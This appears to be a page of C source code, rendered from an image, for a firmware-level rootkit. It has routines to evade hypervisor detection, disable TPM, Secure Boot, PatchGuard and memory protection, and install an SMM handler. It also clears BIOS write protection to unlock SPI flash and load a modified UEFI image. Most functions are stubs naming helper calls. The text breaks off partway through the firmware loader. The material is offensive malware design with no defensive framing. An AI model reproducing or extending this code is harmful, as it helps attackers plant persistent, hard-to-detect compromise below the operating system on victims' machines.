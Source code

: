 ## Hypervisor Detection Evasion

```c
void EvadeHypervisor() {
    // Check for hypervisor presence
    if(IsHypervisorPresent()) {
        // Patch CPUID leaves
        PatchCPUIDLeaves();
        
        // Hide hypervisor timing differences
        InstallTimingHooks();
        
        // Bypass hypervisor memory introspection
        DisableVMExits();
    }
}
```

## Complete Installation Sequence

```c
void InstallFullBypass() {
    // 1. Disable hardware security
    DisableHardwareSecurity();
    
    // 2. Bypass secure boot and TPM
    DisableTPMChecks();
    BypassSecureBoot();
    
    // 3. Install SMM handler
    BypassSMRR();
    InstallSmmHandler();
    
    // 4. Disable kernel protections
    CompletelyDisablePatchGuard();
    BypassMemoryProtection();
    
    // 5. Setup anti-detection
    EvadeHypervisor();
    InstallAntiDetection();
}
```
## Additional Critical Components

### Firmware Level Control

```c
// Direct SPI flash access
void UnlockSPIFlash() {
    // Disable BIOS write protection
    uint32_t* biosCtrl = (uint32_t*)BIOS_CNTL_REG;
    *biosCtrl &= ~BIOS_LOCK_ENABLE;
    
    // Configure SPI controller
    WritePCIConfig(SPI_BASE, 0xDC, 0x00);  // Clear write protect
    WritePCIConfig(SPI_BASE, 0xD8, 0xFF);  // Enable all regions
}

// Custom firmware loader
void LoadCustomFirmware() {
    // Load modified UEFI image
    uint8_t* customFirmware = LoadResource(IDR_FIRMWARE);
    
```